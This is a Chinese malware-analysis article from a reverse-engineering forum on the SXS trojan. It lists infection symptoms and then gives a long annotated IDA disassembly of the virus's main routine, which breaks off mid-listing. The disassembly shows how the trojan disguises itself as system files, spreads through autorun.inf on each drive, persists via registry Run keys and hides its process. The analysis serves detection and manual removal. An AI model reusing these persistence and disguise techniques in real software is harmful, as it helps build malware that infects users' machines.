

# 深入 SXS 病毒

> 原文：[`www.pediy.com/kssd/pediy09/pediy09-733.htm`](https://www.pediy.com/kssd/pediy09/pediy09-733.htm)

>   
> 【工    具】:Olydbg1.1、IDA 5.0   
> 【任    务】:病毒分析、手工清除病毒  
> 【操作平台】:Windows 2003 server   
> 【作    者】: LoveBoom\[DFCG\]\[FCG\]\[CUG\]  
> 【链    接】:见附件[`bbs.pediy.com/showthread.php?t=39152`](http://bbs.pediy.com/showthread.php?t=39152)   
> 【简要说明】:今天静下心来将上篇文章中提到的木马程序给分析了一下，看了下最近的病毒列表，发现中这病毒的人也为数不少，也有很多朋友说中了这病毒后，删除相应的文件后不久又出来。下面一起跟我来看看这病毒到底是怎么回事，这病毒手工应该怎么清除。  
> 【病毒分析】:  
> 首先来看看中毒表现:  
> １、每个盘下生成 sxs.exe 和 autorun.inf 文件；  
> ２、在系统目录中存在 ergaon.exe、ergaon.dll 和 qqhx.dat 文件；  
> ３、在每个进程中可见 ergaon.dll，使用 icesword 之类的工具可见相应的消息钩子;  
> ４、中毒后系统中可以 ergaon.exe 病毒进程；  
> ５、无法正常使用反病毒软件和专杀工具等；  
> ６、在系统注册表项中可见可疑的注册表自启动项。  
> 通过中毒现象可以得出 ergaon.exe、sxs.exe 以及 qqhx.dat 文件有问题，对比了一下，这三个文件内容一样，尝试删除 sxs.exe 和 autorun.inf 文件，得出的结果：删除后不久这两个文件又出来了。终止 ergaon.exe 进程后再删除就不会出现删除的不了的问题。但是病毒具体是怎么做的呢？想知道细节吗?想就跟进着向下看:-)。  
> 经过对病毒的分析，我总结了下，做成了流程图，以方便后面的细节分析,就像素描一样，先把总体外体画出来，然后完成各个细节,该病毒的流程图如下:  
>   
>   
>   
>   
>   
> 根据上面的流程图，可以得知病毒大概做了些什么，下面我们进一步剖析下病毒的每个事件，每一个细节。都分析清楚了以后手工清除该病毒就比较简单:-),正所谓知已知彼方能百战百胜。  
> 前面的流程图已经知道了，下面看看对流程图对应的代码(也就是该病毒的主流程):  
>  ; =============== S U B R O U T I N E ======================================  
> .nsp0:0040A480         public start  
> .nsp0:0040A480 start   proc near                       ; CODE XREF:   
> .nsp0:0040A480  
> .nsp0:0040A480         push    ebp  
> .nsp0:0040A481         mov     ebp, esp  
> .nsp0:0040A483         mov     ecx, 12h  
> .nsp0:0040A488  
> .nsp0:0040A488 loc\_40A488:                             ; CODE XREF: start+D j  
> .nsp0:0040A488         push    0  
> .nsp0:0040A48A         push    0  
> .nsp0:0040A48C         dec     ecx  
> .nsp0:0040A48D         jnz     short loc\_40A488  
> .nsp0:0040A48F         push    ecx  
> .nsp0:0040A490         push    ebx  
> .nsp0:0040A491         push    esi  
> .nsp0:0040A492         push    edi  
> .nsp0:0040A493         mov     eax, offset dword\_40A3D8  
> .nsp0:0040A498         call    sub\_404160  
> .nsp0:0040A49D         mov     ebx, pExtFileName  
> .nsp0:0040A4A3         mov     esi, off\_40B13C  
> .nsp0:0040A4A9         xor     eax, eax  
> .nsp0:0040A4AB         push    ebp  
> .nsp0:0040A4AC         push    offset j\_@System@@HandleFinally$qqrv\_26  
> .nsp0:0040A4B1         push    dword ptr fs:\[eax\]  
> .nsp0:0040A4B4         mov     fs:\[eax\], esp  
> .nsp0:0040A4B7         push    offset aDqhx            ; "dqhx"  
> .nsp0:0040A4BC         push    offset aDqhx            ; "dqhx"  
> .nsp0:0040A4C1         call    FindWindowA  
> .nsp0:0040A4C6         test    eax, eax  
> .nsp0:0040A4C8         jz      loc\_40A5B9              ; 找到窗体表示程序已经在内存中运行，没找到则跳去下一步.  
> .nsp0:0040A4CE         push    0                       ; lParam  
> .nsp0:0040A4D0         push    0                       ; wParam  
> .nsp0:0040A4D2         push    WM\_CLOSE                ; Msg  
> .nsp0:0040A4D4         push    offset aDqhx            ; "dqhx"  
> .nsp0:0040A4D9         push    offset aDqhx            ; "dqhx"  
> .nsp0:0040A4DE         call    FindWindowA  
> .nsp0:0040A4E3         push    eax                     ; hWnd  
> .nsp0:0040A4E4         call    SendMessageA  
> .nsp0:0040A4E9         push    0                       ; lParam  
> .nsp0:0040A4EB         push    1                       ; wParam  
> .nsp0:0040A4ED         push    WM\_QUIT                 ; Msg  
> .nsp0:0040A4EF         push    offset aDqhx            ; "dqhx"  
> .nsp0:0040A4F4         push    offset aDqhx            ; "dqhx"  
> .nsp0:0040A4F9         call    FindWindowA  
> .nsp0:0040A4FE         push    eax                     ; hWnd  
> .nsp0:0040A4FF         call    PostMessageA            ; 如果病毒已经在内存中运行则发送消息使病毒退出。  
> .nsp0:0040A504         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A509         lea     eax, \[ebp+var\_14\]  
> .nsp0:0040A50C         call    GetSysDir  
> .nsp0:0040A511         lea     eax, \[ebp+var\_14\]  
> .nsp0:0040A514         mov     edx, offset aWinscok\_dll ; "winscok.dll"  
> .nsp0:0040A519         call    @System@@LStrCat$qqrv  
> .nsp0:0040A51E         mov     eax, \[ebp+var\_14\]  
> .nsp0:0040A521         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A526         push    eax                     ; lpFileName  
> .nsp0:0040A527         call    SetFileAttributesA      ; 设置%Sysdir%\\winscok.dll 文件属性为 normal  
> .nsp0:0040A52C         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A531         lea     eax, \[ebp+var\_18\]  
> .nsp0:0040A534         call    GetSysDir  
> .nsp0:0040A539         lea     eax, \[ebp+var\_18\]  
> .nsp0:0040A53C         mov     edx, offset aSvohost\_exe ; "svohost.exe"  
> .nsp0:0040A541         call    @System@@LStrCat$qqrv  
> .nsp0:0040A546         mov     eax, \[ebp+var\_18\]  
> .nsp0:0040A549         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A54E         push    eax                     ; lpFileName  
> .nsp0:0040A54F         call    SetFileAttributesA      ; 设置%Sysdir%\\svohost.exe 文件属性为 normal  
> .nsp0:0040A554         lea     eax, \[ebp+var\_1C\]  
> .nsp0:0040A557         call    GetSysDir  
> .nsp0:0040A55C         lea     eax, \[ebp+var\_1C\]  
> .nsp0:0040A55F         mov     edx, offset aSvohost\_exe ; "svohost.exe"  
> .nsp0:0040A564         call    @System@@LStrCat$qqrv  
> .nsp0:0040A569         mov     eax, \[ebp+var\_1C\]  
> .nsp0:0040A56C         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A571         push    eax                     ; lpFileName  
> .nsp0:0040A572         call    DeleteFileA             ; 删除%Sysdir%\\svohost.exe 文件  
> .nsp0:0040A577         lea     eax, \[ebp+var\_20\]  
> .nsp0:0040A57A         call    GetSysDir  
> .nsp0:0040A57F         lea     eax, \[ebp+var\_20\]  
> .nsp0:0040A582         mov     edx, offset aWinscok\_dll ; "winscok.dll"  
> .nsp0:0040A587         call    @System@@LStrCat$qqrv  
> .nsp0:0040A58C         mov     eax, \[ebp+var\_20\]  
> .nsp0:0040A58F         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A594         push    eax                     ; lpFileName  
> .nsp0:0040A595         call    DeleteFileA             ; 删除%Sysdir%\\winscok.dll 文件  
> .nsp0:0040A595                                         ; 注意这两个文件都是伪系统正常文件。  
> .nsp0:0040A59A         lea     eax, \[ebp+var\_24\]  
> .nsp0:0040A59D         mov     edx, offset aSonudmam   ; "SonudMam"  
> .nsp0:0040A5A2         call    @System@@LStrFromPChar$qqrr17System@AnsiStringpc  
> .nsp0:0040A5A7         mov     ecx, \[ebp+var\_24\]  
> .nsp0:0040A5AA         mov     edx, offset aSoftwareMicr\_7 ; "Software\\\\Microsoft\\\\Windows\\\\CurrentVersi"...  
> .nsp0:0040A5AF         mov     eax, HKEY\_LOCAL\_MACHINE  
> .nsp0:0040A5B4         call    Del\_Reg                 ; 删除病毒注册表自启动项  
> .nsp0:0040A5B4                                         ; 这个也不是 soundman 的正常启动项哦  
> .nsp0:0040A5B9  
> .nsp0:0040A5B9 loc\_40A5B9:                             ; CODE XREF: start+48 j  
> .nsp0:0040A5B9         lea     eax, \[ebp+szSysDirQQ.dat\]  
> .nsp0:0040A5BC         call    GetSysDir  
> .nsp0:0040A5C1         lea     eax, \[ebp+szSysDirQQ.dat\]  
> .nsp0:0040A5C4         mov     edx, offset aQqhx\_dat   ; "QQhx.dat"  
> .nsp0:0040A5C9         call    @System@@LStrCat$qqrv  
> .nsp0:0040A5CE         mov     eax, \[ebp+szSysDirQQ.dat\]  
> .nsp0:0040A5D1         call    @Sysutils@FileExists$qqrx17System@AnsiString  
> .nsp0:0040A5D6         cmp     al, 1                   ; 判断%SysDir%\\QQhx.dat 文件是否存在,不存在则跳  
> .nsp0:0040A5D8         jnz     Dll\_isNotExist  
> .nsp0:0040A5DE         call    Decryt\_OverLayer\_Data  
> .nsp0:0040A5E3         mov     eax, pFndWinDowName  
> .nsp0:0040A5E8         mov     eax, \[eax\]  
> .nsp0:0040A5EA         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A5EF         mov     edi, eax  
> .nsp0:0040A5F1         push    edi                     ; lpWindowName  
> .nsp0:0040A5F2         mov     eax, pFndWinDowName  
> .nsp0:0040A5F7         push    edi                     ; lpClassName  
> .nsp0:0040A5F8         call    FindWindowA  
> .nsp0:0040A5FD         test    eax, eax                ; 查找窗体名为"tmlurl"的程序,  
> .nsp0:0040A5FD                                         ; 查找到后关闭与之对应的程序，作用是:更新病毒程序  
> .nsp0:0040A5FF         jz      short not\_FoundWindow  
> .nsp0:0040A601         push    0                       ; lParam  
> .nsp0:0040A603         push    0                       ; wParam  
> .nsp0:0040A605         push    WM\_CLOSE                ; Msg  
> .nsp0:0040A607         mov     eax, pFndWinDowName     ; 找到该窗体则发送消息使该窗体关闭，  
> .nsp0:0040A607                                         ; 并发送退出消息使窗体对应的程序退出。  
> .nsp0:0040A60C         mov     eax, \[eax\]  
> .nsp0:0040A60E         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A613         mov     edi, eax  
> .nsp0:0040A615         push    edi                     ; lpWindowName  
> .nsp0:0040A616         mov     eax, pFndWinDowName  
> .nsp0:0040A61B         push    edi                     ; lpClassName  
> .nsp0:0040A61C         call    FindWindowA  
> .nsp0:0040A621         push    eax                     ; hWnd  
> .nsp0:0040A622         call    SendMessageA  
> .nsp0:0040A627         push    0                       ; lParam  
> .nsp0:0040A629         push    1                       ; wParam  
> .nsp0:0040A62B         push    WM\_QUIT                 ; Msg  
> .nsp0:0040A62D         mov     eax, pFndWinDowName  
> .nsp0:0040A632         mov     eax, \[eax\]  
> .nsp0:0040A634         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A639         mov     edi, eax  
> .nsp0:0040A63B         push    edi                     ; lpWindowName  
> .nsp0:0040A63C         mov     eax, pFndWinDowName  
> .nsp0:0040A641         push    edi                     ; lpClassName  
> .nsp0:0040A642         call    FindWindowA  
> .nsp0:0040A647         push    eax                     ; hWnd  
> .nsp0:0040A648         call    PostMessageA  
> .nsp0:0040A64D  
> .nsp0:0040A64D not\_FoundWindow:                        ; CODE XREF: start+17F j  
> .nsp0:0040A64D         push    FILE\_ATTRIBUTE\_NORMAL  
> .nsp0:0040A652         lea     eax, \[ebp+var\_30\]  
> .nsp0:0040A655         call    GetSysDir  
> .nsp0:0040A65A         push    \[ebp+var\_30\]  
> .nsp0:0040A65D         push    dword ptr \[ebx\]  
> .nsp0:0040A65F         push    offset a\_exe            ; dwFileAttributes  
> .nsp0:0040A664         lea     eax, \[ebp+szSysDirergaon\_01\]  
> .nsp0:0040A667         mov     edx, 3  
> .nsp0:0040A66C         call    sub\_403BC4  
> .nsp0:0040A671         mov     eax, \[ebp+szSysDirergaon\_01\]  
> .nsp0:0040A674         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A679         push    eax                     ; lpFileName  
> .nsp0:0040A67A         call    SetFileAttributesA      ; 设置%SysDir%\\ergaon.exe 文件属性为 normal  
> .nsp0:0040A67F         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A684         lea     eax, \[ebp+var\_34\]  
> .nsp0:0040A687         call    GetSysDir  
> .nsp0:0040A68C         lea     eax, \[ebp+var\_34\]  
> .nsp0:0040A68F         mov     edx, offset aQqhx\_dat   ; "QQhx.dat"  
> .nsp0:0040A694         call    @System@@LStrCat$qqrv  
> .nsp0:0040A699         mov     eax, \[ebp+var\_34\]  
> .nsp0:0040A69C         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A6A1         push    eax                     ; lpFileName  
> .nsp0:0040A6A2         call    SetFileAttributesA      ; 设置%sysDir%\\QQhx.dat 文件属性为 normal  
> .nsp0:0040A6A7         push    FILE\_ATTRIBUTE\_NORMAL  
> .nsp0:0040A6AC         lea     eax, \[ebp+var\_3C\]  
> .nsp0:0040A6AF         call    GetSysDir  
> .nsp0:0040A6B4         push    \[ebp+var\_3C\]  
> .nsp0:0040A6B7         push    dword ptr \[ebx\]  
> .nsp0:0040A6B9         push    offset a\_dll            ; dwFileAttributes  
> .nsp0:0040A6BE         lea     eax, \[ebp+szSysDirergaon\_dll\]  
> .nsp0:0040A6C1         mov     edx, 3  
> .nsp0:0040A6C6         call    sub\_403BC4  
> .nsp0:0040A6CB         mov     eax, \[ebp+szSysDirergaon\_dll\]  
> .nsp0:0040A6CE         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A6D3         push    eax                     ; lpFileName  
> .nsp0:0040A6D4         call    SetFileAttributesA      ; 设置%SysDir%\\ergaon.dll 文件属性为 normal  
> .nsp0:0040A6D9         lea     eax, \[ebp+var\_44\]  
> .nsp0:0040A6DC         call    GetSysDir  
> .nsp0:0040A6E1         push    \[ebp+var\_44\]  
> .nsp0:0040A6E4         push    dword ptr \[ebx\]  
> .nsp0:0040A6E6         push    offset a\_exe            ; ".exe"  
> .nsp0:0040A6EB         lea     eax, \[ebp+var\_40\]  
> .nsp0:0040A6EE         mov     edx, 3  
> .nsp0:0040A6F3         call    sub\_403BC4  
> .nsp0:0040A6F8         mov     eax, \[ebp+var\_40\]  
> .nsp0:0040A6FB         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A700         push    eax                     ; lpFileName  
> .nsp0:0040A701         call    DeleteFileA             ; 删除 ergaon.exe 文件  
> .nsp0:0040A706         lea     eax, \[ebp+var\_48\]  
> .nsp0:0040A709         call    GetSysDir  
> .nsp0:0040A70E         lea     eax, \[ebp+var\_48\]  
> .nsp0:0040A711         mov     edx, offset aQqhx\_dat   ; "QQhx.dat"  
> .nsp0:0040A716         call    @System@@LStrCat$qqrv  
> .nsp0:0040A71B         mov     eax, \[ebp+var\_48\]  
> .nsp0:0040A71E         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A723         push    eax                     ; lpFileName  
> .nsp0:0040A724         call    DeleteFileA             ; 删除 QQhx.dat 文件  
> .nsp0:0040A729         lea     eax, \[ebp+var\_50\]  
> .nsp0:0040A72C         call    GetSysDir  
> .nsp0:0040A731         push    \[ebp+var\_50\]  
> .nsp0:0040A734         push    dword ptr \[ebx\]  
> .nsp0:0040A736         push    offset a\_dll            ; ".dll"  
> .nsp0:0040A73B         lea     eax, \[ebp+var\_4C\]  
> .nsp0:0040A73E         mov     edx, 3  
> .nsp0:0040A743         call    sub\_403BC4  
> .nsp0:0040A748         mov     eax, \[ebp+var\_4C\]  
> .nsp0:0040A74B         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A750         push    eax                     ; lpFileName  
> .nsp0:0040A751         call    DeleteFileA             ; 删除 ergaon.dll 文件  
> .nsp0:0040A756         mov     eax, pFndWinDowName  
> .nsp0:0040A75B         mov     eax, \[eax\]  
> .nsp0:0040A75D         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A762         mov     edx, eax  
> .nsp0:0040A764         lea     eax, \[ebp+var\_54\]  
> .nsp0:0040A767         call    @System@@LStrFromPChar$qqrr17System@AnsiStringpc  
> .nsp0:0040A76C         mov     ecx, \[ebp+var\_54\]  
> .nsp0:0040A76F         mov     edx, offset aSoftwareMicr\_7 ; "Software\\\\Microsoft\\\\Windows\\\\CurrentVersi"...  
> .nsp0:0040A774         mov     eax, HKEY\_LOCAL\_MACHINE  
> .nsp0:0040A779         call    Del\_Reg                 ; 删除相应的注册表自启动项:  
> .nsp0:0040A779                                         ; HKLM\\software\\microsoft\\windows\\currentversion\\run  
> .nsp0:0040A779                                         ; "tmlurl" = value  
> .nsp0:0040A77E         mov     eax, pOption\_05         ; 本程序设置为"no"  
> .nsp0:0040A783         mov     eax, \[eax\]  
> .nsp0:0040A785         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A78A         mov     edx, eax  
> .nsp0:0040A78C         lea     eax, \[ebp+var\_58\]  
> .nsp0:0040A78F         call    @System@@LStrFromPChar$qqrr17System@AnsiStringpc  
> .nsp0:0040A794         mov     ecx, \[ebp+var\_58\]  
> .nsp0:0040A797         mov     edx, offset aSoftwareMicr\_7 ; "Software\\\\Microsoft\\\\Windows\\\\CurrentVersi"...  
> .nsp0:0040A79C         mov     eax, HKEY\_LOCAL\_MACHINE  
> .nsp0:0040A7A1         call    Del\_Reg                 ; 删除注册表项:  
> .nsp0:0040A7A1                                         ; HKLM\\software\\...\\run  
> .nsp0:0040A7A1                                         ; "NO" = value  
> .nsp0:0040A7A6  
> .nsp0:0040A7A6 Dll\_isNotExist:                         ; CODE XREF: start+158 j  
> .nsp0:0040A7A6         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A7AB         push    offset FileName         ; "d:\\\\sxs.exe"  
> .nsp0:0040A7B0         call    SetFileAttributesA  
> .nsp0:0040A7B5         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A7BA         push    offset aDAutorun\_inf    ; "d:\\\\autorun.inf"  
> .nsp0:0040A7BF         call    SetFileAttributesA  
> .nsp0:0040A7C4         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A7C9         push    offset aESxs\_exe        ; "e:\\\\sxs.exe"  
> .nsp0:0040A7CE         call    SetFileAttributesA  
> .nsp0:0040A7D3         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A7D8         push    offset aEAutorun\_inf    ; "e:\\\\autorun.inf"  
> .nsp0:0040A7DD         call    SetFileAttributesA  
> .nsp0:0040A7E2         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A7E7         push    offset aFSxs\_exe        ; "f:\\\\sxs.exe"  
> .nsp0:0040A7EC         call    SetFileAttributesA  
> .nsp0:0040A7F1         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A7F6         push    offset aFAutorun\_inf    ; "f:\\\\autorun.inf"  
> .nsp0:0040A7FB         call    SetFileAttributesA  
> .nsp0:0040A800         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A805         push    offset aGSxs\_exe        ; "g:\\\\sxs.exe"  
> .nsp0:0040A80A         call    SetFileAttributesA  
> .nsp0:0040A80F         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A814         push    offset aGAutorun\_inf    ; "g:\\\\autorun.inf"  
> .nsp0:0040A819         call    SetFileAttributesA  
> .nsp0:0040A81E         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A823         push    offset aHSxs\_exe        ; "h:\\\\sxs.exe"  
> .nsp0:0040A828         call    SetFileAttributesA  
> .nsp0:0040A82D         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A832         push    offset aHAutorun\_inf    ; "h:\\\\autorun.inf"  
> .nsp0:0040A837         call    SetFileAttributesA  
> .nsp0:0040A83C         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A841         push    offset aISxs\_exe        ; "i:\\\\sxs.exe"  
> .nsp0:0040A846         call    SetFileAttributesA  
> .nsp0:0040A84B         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A850         push    offset aIAutorun\_inf    ; "i:\\\\autorun.inf"  
> .nsp0:0040A855         call    SetFileAttributesA  
> .nsp0:0040A85A         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A85F         push    offset aJSxs\_exe        ; "j:\\\\sxs.exe"  
> .nsp0:0040A864         call    SetFileAttributesA  
> .nsp0:0040A869         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:0040A86E         push    offset aJAutorun\_inf    ; "j:\\\\autorun.inf"  
> .nsp0:0040A873         call    SetFileAttributesA  
> .nsp0:0040A878         push    offset FileName         ; "d:\\\\sxs.exe"  
> .nsp0:0040A87D         call    DeleteFileA  
> .nsp0:0040A882         push    offset aDAutorun\_inf    ; "d:\\\\autorun.inf"  
> .nsp0:0040A887         call    DeleteFileA  
> .nsp0:0040A88C         push    offset aESxs\_exe        ; "e:\\\\sxs.exe"  
> .nsp0:0040A891         call    DeleteFileA  
> .nsp0:0040A896         push    offset aEAutorun\_inf    ; "e:\\\\autorun.inf"  
> .nsp0:0040A89B         call    DeleteFileA  
> .nsp0:0040A8A0         push    offset aFSxs\_exe        ; "f:\\\\sxs.exe"  
> .nsp0:0040A8A5         call    DeleteFileA  
> .nsp0:0040A8AA         push    offset aFAutorun\_inf    ; "f:\\\\autorun.inf"  
> .nsp0:0040A8AF         call    DeleteFileA  
> .nsp0:0040A8B4         push    offset aGSxs\_exe        ; "g:\\\\sxs.exe"  
> .nsp0:0040A8B9         call    DeleteFileA  
> .nsp0:0040A8BE         push    offset aGAutorun\_inf    ; "g:\\\\autorun.inf"  
> .nsp0:0040A8C3         call    DeleteFileA  
> .nsp0:0040A8C8         push    offset aHSxs\_exe        ; "h:\\\\sxs.exe"  
> .nsp0:0040A8CD         call    DeleteFileA  
> .nsp0:0040A8D2         push    offset aHAutorun\_inf    ; "h:\\\\autorun.inf"  
> .nsp0:0040A8D7         call    DeleteFileA  
> .nsp0:0040A8DC         push    offset aISxs\_exe        ; "i:\\\\sxs.exe"  
> .nsp0:0040A8E1         call    DeleteFileA  
> .nsp0:0040A8E6         push    offset aIAutorun\_inf    ; "i:\\\\autorun.inf"  
> .nsp0:0040A8EB         call    DeleteFileA  
> .nsp0:0040A8F0         push    offset aJSxs\_exe        ; "j:\\\\sxs.exe"  
> .nsp0:0040A8F5         call    DeleteFileA  
> .nsp0:0040A8FA         push    offset aJAutorun\_inf    ; "j:\\\\autorun.inf"  
> .nsp0:0040A8FF         call    DeleteFileA             ; 删除 defghij 盘根目录下的 autorun.inf 文件和 sxs 文件  
> .nsp0:0040A8FF                                         ; 用于病毒的自我更新  
> .nsp0:0040A904         mov     eax, esi  
> .nsp0:0040A906         mov     edx, 104h  
> .nsp0:0040A90B         call    @System@@LStrSetLength$qqrv  
> .nsp0:0040A910         push    104h                    ; nSize  
> .nsp0:0040A915         mov     eax, \[esi\]  
> .nsp0:0040A917         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A91C         push    eax                     ; lpFilename  
> .nsp0:0040A91D         mov     eax, hBase  
> .nsp0:0040A922         push    eax                     ; hModule  
> .nsp0:0040A923         call    GetModuleFileNameA  
> .nsp0:0040A928         mov     edx, eax  
> .nsp0:0040A92A         mov     eax, esi  
> .nsp0:0040A92C         call    @System@@LStrSetLength$qqrv  
> .nsp0:0040A931         push    0                       ; bFailIfExists  
> .nsp0:0040A933         lea     eax, \[ebp+szSysDirQQ.dat\_\]  
> .nsp0:0040A936         call    GetSysDir  
> .nsp0:0040A93B         lea     eax, \[ebp+szSysDirQQ.dat\_\]  
> .nsp0:0040A93E         mov     edx, offset aQqhx\_dat   ; "QQhx.dat"  
> .nsp0:0040A943         call    @System@@LStrCat$qqrv  
> .nsp0:0040A948         mov     eax, \[ebp+szSysDirQQ.dat\_\]  
> .nsp0:0040A94B         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A950         push    eax                     ; lpNewFileName  
> .nsp0:0040A951         mov     eax, \[esi\]  
> .nsp0:0040A953         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A958         push    eax                     ; lpExistingFileName  
> .nsp0:0040A959         call    CopyFileA               ; 复制病毒为%sysDir%\\qqhx.dat  
> .nsp0:0040A95E         call    Decryt\_OverLayer\_Data   ; 解密附加数据  
> .nsp0:0040A963         push    0  
> .nsp0:0040A965         lea     eax, \[ebp+var\_64\]  
> .nsp0:0040A968         call    GetSysDir  
> .nsp0:0040A96D         push    \[ebp+var\_64\]  
> .nsp0:0040A970         push    dword ptr \[ebx\]         ; 这里根据附加数据中的信息生成伪装文件  
> .nsp0:0040A972         push    offset a\_exe            ; bFailIfExists  
> .nsp0:0040A977         lea     eax, \[ebp+szSysDirergaon\]  
> .nsp0:0040A97A         mov     edx, 3  
> .nsp0:0040A97F         call    sub\_403BC4  
> .nsp0:0040A984         mov     eax, \[ebp+szSysDirergaon\]  
> .nsp0:0040A987         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A98C         push    eax                     ; lpNewFileName  
> .nsp0:0040A98D         mov     eax, \[esi\]  
> .nsp0:0040A98F         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040A994         push    eax                     ; lpExistingFileName  
> .nsp0:0040A995         call    CopyFileA               ; 我手中的样本病毒将自身复  
> .nsp0:0040A995                                         ; 制为%SysDir%\\ergaon.exe(ergaon 即为伪装名)  
> .nsp0:0040A99A         lea     edx, \[ebp+appFullName\]  
> .nsp0:0040A99D         mov     eax, \[esi\]  
> .nsp0:0040A99F         call    upcase  
> .nsp0:0040A9A4         mov     eax, \[ebp+appFullName\]  
> .nsp0:0040A9A7         push    eax  
> .nsp0:0040A9A8         lea     eax, \[ebp+var\_74\]  
> .nsp0:0040A9AB         call    GetSysDir  
> .nsp0:0040A9B0         push    \[ebp+var\_74\]  
> .nsp0:0040A9B3         push    dword ptr \[ebx\]  
> .nsp0:0040A9B5         push    offset a\_exe            ; ".exe"  
> .nsp0:0040A9BA         lea     eax, \[ebp+var\_70\]  
> .nsp0:0040A9BD         mov     edx, 3  
> .nsp0:0040A9C2         call    sub\_403BC4  
> .nsp0:0040A9C7         mov     eax, \[ebp+var\_70\]  
> .nsp0:0040A9CA         lea     edx, \[ebp+var\_6C\]  
> .nsp0:0040A9CD         call    upcase  
> .nsp0:0040A9D2         mov     edx, \[ebp+var\_6C\]  
> .nsp0:0040A9D5         pop     eax  
> .nsp0:0040A9D6         call    @System@@LStrCmp$qqrv  
> .nsp0:0040A9DB         jz      short is\_fake\_exe\_filename ; 判断病毒全路径名是否为%SysDir%\\ergaon.exe  
> .nsp0:0040A9DD         push    1  
> .nsp0:0040A9DF         push    0  
> .nsp0:0040A9E1         push    0  
> .nsp0:0040A9E3         lea     eax, \[ebp+nShowCmd\]  
> .nsp0:0040A9E6         call    GetSysDir  
> .nsp0:0040A9EB         push    \[ebp+nShowCmd\]          ; nShowCmd  
> .nsp0:0040A9EE         push    dword ptr \[ebx\]         ; lpDirectory  
> .nsp0:0040A9F0         push    offset a\_exe            ; ".exe"  
> .nsp0:0040A9F5         lea     eax, \[ebp+var\_78\]  
> .nsp0:0040A9F8         mov     edx, 3  
> .nsp0:0040A9FD         call    sub\_403BC4  
> .nsp0:0040AA02         mov     eax, \[ebp+var\_78\]  
> .nsp0:0040AA05         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040AA0A         push    eax                     ; lpFile  
> .nsp0:0040AA0B         push    offset aOpen\_1          ; "open"  
> .nsp0:0040AA10         push    0                       ; hwnd  
> .nsp0:0040AA12         call    ShellExecuteA           ; 如果不是伪装程序自身在运行则运行伪装程序。  
> .nsp0:0040AA12                                         ; 然后退出自身。  
> .nsp0:0040AA17         jmp     end\_40AB66  
> .nsp0:0040AA1C ; ---------------------------------------------------------------------------  
> .nsp0:0040AA1C  
> .nsp0:0040AA1C is\_fake\_exe\_filename:                   ; CODE XREF: start+55B j  
> .nsp0:0040AA1C         call    Decryt\_OverLayer\_Data  
> .nsp0:0040AA21         call    Win9x\_Hide\_Proc         ; 是 Win9x 系统则进行进程隐藏  
> .nsp0:0040AA26         mov     eax, ThreadID\_00  
> .nsp0:0040AA2B         push    eax                     ; lpThreadId  
> .nsp0:0040AA2C         push    0                       ; dwCreationFlags  
> .nsp0:0040AA2E         push    0                       ; lpParameter  
> .nsp0:0040AA30         push    offset Thread\_Kill\_QQ   ; 配置时选择了关闭ＱＱ则这里进入执行关闭ＱＱ操作  
> .nsp0:0040AA35         push    0                       ; dwStackSize  
